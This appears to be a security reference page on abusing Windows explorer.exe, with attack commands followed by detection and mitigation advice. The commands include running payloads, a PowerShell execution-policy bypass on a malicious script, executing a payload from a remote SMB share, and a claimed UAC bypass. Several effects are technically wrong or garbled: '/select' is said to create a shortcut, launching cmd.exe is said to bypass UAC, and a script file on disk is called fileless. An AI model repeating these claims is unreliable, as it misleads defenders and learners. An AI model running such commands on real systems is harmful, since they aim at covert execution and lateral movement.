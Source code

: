 # explorer.exe
## What is it?
*```explorer.exe``` is the Windows File Explorer, a graphical user interface (GUI) shell used to browse, open, and manage files and folders in Windows operating systems.*
*It is a core component of the Windows operating system, responsible for managing the desktop, taskbar, file browsing, and overall user interface interaction.*

## Legitimate Usage
- **File Management** → Use to browse and manage files and directories in Windows.
- **Taskbar & Desktop** → Explorer is responsible for the taskbar, Start Menu, and desktop interface.
- **Running Applications** → Through the File Explorer, users can run executables and manage processes.
- **Network Access** → Access shared network drives and files using Explorer’s network browsing capabilities.
- **Drag-and-Drop Operations** → Files and folders can be moved, copied, and managed through the graphical interface.

## How to abuse it
- **Persistence** → Attackers can use ```explorer.exe``` to maintain persistence by executing malicious scripts or programs via the GUI interface.
- **Privilege Escalation** → Attackers can exploit vulnerabilities in ```explorer.exe``` to gain higher system privileges.
- **Bypassing Security Controls** → ```explorer.exe``` can be leveraged to execute malicious files in trusted locations or bypass application whitelisting.
- **Lateral Movement** → Attackers can use ```explorer.exe``` to run malicious applications or scripts on remote systems.
- **Execution of Payloads** → Since ```explorer.exe``` is trusted and commonly executed, attackers can leverage it to run malicious payloads undetected.

## Example attacks
### 1. Launching Malicious Payloads
*Attackers can use ```explorer.exe``` to run malicious executables that they disguise as legitimate files.*
**Execute Malicious Payload through Explorer**

```
explorer.exe C:\path\to\malicious_payload.exe
```

**Effect:**
- The malicious payload runs within the trusted ```explorer.exe``` process, evading detection from security tools that might overlook its execution.
  
### 2. Persistence via Explorer Shortcut
*Attackers can use ```explorer.exe``` to create a shortcut that runs a malicious payload on system startup.*
**Create Shortcut to Malicious Payload**

```
explorer.exe /select, C:\path\to\malicious_payload.exe
```

**Effect:**
- A shortcut is created on the desktop, which runs the payload when clicked, maintaining persistence through user interaction.

### 3. Fileless Execution
*Malicious PowerShell scripts or encoded payloads can be executed by using ```explorer.exe``` to run command files indirectly.*
**Execute PowerShell Script through Explorer**

```
explorer.exe "powershell.exe -NoP -ExecutionPolicy Bypass -Command C:\path\to\malicious_script.ps1"
```

**Effect:**
- Executes a PowerShell script to download and execute further malicious commands, using Explorer to bypass file-based detection methods.

### 4. Lateral Movement via SMB Share
*Attackers can use ```explorer.exe``` to run a malicious file over SMB, enabling lateral movement across the network.*
**Execute Malicious File via SMB Share**

```
explorer.exe \192.168.1.50\C$\Windows\Temp\payload.exe
```

**Effect:**
- Malicious file is executed remotely via SMB, which allows lateral movement from one compromised machine to another.

### 5. Exploiting Explorer for UAC Bypass
*Attackers can use ```explorer.exe``` to bypass User Account Control (UAC) and gain elevated privileges.*
**Bypass UAC Using Explorer**

```
explorer.exe C:\Windows\System32\cmd.exe
```

**Effect:**
- ```cmd.exe``` is launched with elevated privileges by exploiting a UAC bypass vulnerability, giving the attacker administrative control.

### 6. Fileless Attack via Script Execution
*```explorer.exe``` can be used to execute a script stored in memory, reducing the need for file-based malware.*
**Run Malicious VBScript**

```
explorer.exe C:\path\to\script.vbs
```

**Effect:**
- The VBScript runs without being stored in a traditional file, making detection more difficult for traditional antivirus tools.

# Detection & Mitigation
## Detection Methods
**Monitor Suspicious Explorer.exe Executions**
- **Event ID 4688 (New Process Creation)** → Monitor instances where ```explorer.exe``` is executing files from unusual locations, especially non-default directories.
- **Look for Suspicious Command-Line Arguments** → Detect unusual arguments being passed to ```explorer.exe```, such as commands to run executables or scripts.

**Monitor Fileless Executions**
- **Event ID 4104 (PowerShell Command Execution)** → Detect PowerShell commands being executed through ```explorer.exe``` that may indicate a fileless attack.
- **Look for Scripting Languages** → Watch for VBScript, PowerShell, or other script file extensions being executed indirectly via Explorer.

**Monitor SMB Traffic**
- **Event ID 5140 (File Share Access)** → Monitor for unusual SMB access patterns, particularly when ```explorer.exe``` accesses remote shares or executes files from shared locations.

## Mitigation Strategies
- **Application Whitelisting** → Use whitelisting solutions like AppLocker or Windows Defender Application Control (WDAC) to block unauthorized applications from executing via Explorer.
- **Restrict File and Script Execution** → Limit execution rights to specific trusted users and block scripts from running through Explorer.
- **Disable SMBv1** → Disable SMBv1 on all systems to reduce the attack surface for lateral movement via SMB shares.
- **Enforce UAC Policies** → Configure User Account Control (UAC) settings to limit the ability of unauthorized users to bypass elevated privileges.
- **Monitor User Behavior** → Set up alerts for suspicious user activity, particularly actions that involve launching or modifying Explorer-related processes.
